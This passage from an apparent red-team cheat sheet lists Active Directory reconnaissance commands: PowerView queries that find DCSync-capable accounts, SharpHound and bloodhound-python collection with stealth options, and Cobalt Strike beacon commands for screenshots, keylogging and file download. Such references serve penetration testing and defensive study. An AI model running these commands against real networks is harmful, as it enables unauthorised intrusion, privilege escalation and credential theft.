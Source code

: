 ```

# retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
Get-DomainObjectAcl "dc=dev,dc=testlab,dc=local" -ResolveGUIDs | ? { ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') }

# list users with dcsync rights
Get-ObjectACL -DistinguishedName "dc=companyx,dc=com" -ResolveGUIDs | ? { ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') } | select IdentityReference
```

### Resources
- https://github.com/PowerShellMafia/PowerSploit
- https://powersploit.readthedocs.io/en/latest/Recon/
- https://github.com/tevora-threat/SharpView
- https://github.com/HunnicCyber/SharpSniper

## BloodHound

SharpHound

```
# thorough
beacon> execute-assembly /opt/tools/SharpHound.exe -c All,GpoLocalGroup -d vault.local

# stealth
beacon> execute-assembly c:\tools\sharphound3.exe -c dconly --stealth

# download
beacon> download .\20210210043130_BloodHound.zip
```

bloodhound-python

```
# from linux terminal
$ bloodhound-python -c All -u j.smith -p Passw0rd -d vault.io -dc 10.0.0.1

# via proxy
proxychains bloodhound-python -u robert.lanza -p 'U=zk1J.TYruU*' -d inception.local -ns 10.9.40.5 -dc indc.inception.local --dns-tcp -c All,LoggedOn
```

### Resources
- https://github.com/BloodHoundAD/SharpHound3
- https://github.com/fox-it/BloodHound.py
- https://github.com/hausec/Bloodhound-Custom-Queries


### Host Recon

#### Misc situational awareness.

```
# Using CS
beacon> help net
[...]

beacon> screenshot
[...]

beacon> keylogger 30
[...]

# SeatBelt
beacon> execute-assembly /opt/tools/SeatBelt.exe -group=system
```